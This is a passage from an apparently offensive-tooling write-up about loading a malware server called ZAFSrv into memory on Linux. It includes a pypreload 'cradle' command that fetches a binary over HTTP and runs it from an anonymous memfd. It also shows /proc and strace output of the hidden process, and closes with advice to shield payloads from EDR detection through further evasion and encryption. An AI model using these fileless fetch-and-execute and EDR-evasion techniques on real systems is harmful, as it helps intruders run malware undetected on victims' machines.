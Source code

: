 Internals of the fetcher referencing the malware module presented over ZAFSrv:

```sh
$ ls -l /proc/56418/fd
lrwx------ 1 root root 64 Feb 17 17:55 0 -> /dev/pts/6
l-wx------ 1 root root 64 Feb 17 17:55 1 -> 'pipe:[3478476]'
l-wx------ 1 root root 64 Feb 17 17:55 2 -> 'pipe:[3478477]'
```

Process tree: Where is Waldo? We only see .. `bash` invoking `ls`  ;)

```sh
56417 pts/6    S+     0:00                  |   |   |   \_ bash
56418 pts/6    S+     0:00                  |   |   |       \_ /bin/ls
```

#### 0x0:B Loading and Executing Malware Warehousing ZAFSrv with PyPreload

In the same vein we can load our ZAFSrv into memory with the pypreload cradle:

```sh
$ pypreload.py  -t bin -l http://127.0.0.1:8080/zaf -d bash
```

Note: as you look at the process table and the `/proc` entries notice that the parent is gone (pypreload cradle), and the binary loaded (ZAFSrv)

```sh
$ ls -l /proc/56509/fd/
lr-x------ 1 root root 64 Feb 17 18:08 0 -> /dev/null
l-wx------ 1 root root 64 Feb 17 18:08 1 -> /dev/null
lrwx------ 1 root root 64 Feb 17 18:08 2 -> /dev/null
l-wx------ 1 root root 64 Feb 17 18:08 3 -> /tmp/_mf.log
lrwx------ 1 root root 64 Feb 17 18:08 4 -> '/memfd:fa37Jn (deleted)'
lrwx------ 1 root root 64 Feb 17 18:08 5 -> 'socket:[3479923]'
```

Strace sees the following in the logs:

```log
56880 18:26:52.395703 memfd_create("R6YP4OOR", MFD_CLOEXEC) = 3
56884 18:26:52.586221 readlink("/proc/self/exe", "/memfd:R6YP4OOR (deleted)", 4096) = 25
56886 18:26:52.624087 memfd_create("", MFD_CLOEXEC) = 4
56886 18:26:52.632680 memfd_create("fa37Jn", MFD_CLOEXEC) = 4
```

Where is Waldo, really? 

---

### Protecting your Cradles and Preloaders

A few words of caution:

After the dust settles, and your EDRs are hopefully lost in the forest of process trees and zombie process ant targets compelled to run your code (lol), you have to remember that the next time you face them they will be ready. Take steps to protect your payloads. Either via additional evasion capabilities, encryption, or other novel ways to be curious, inquisitive and overserving. 
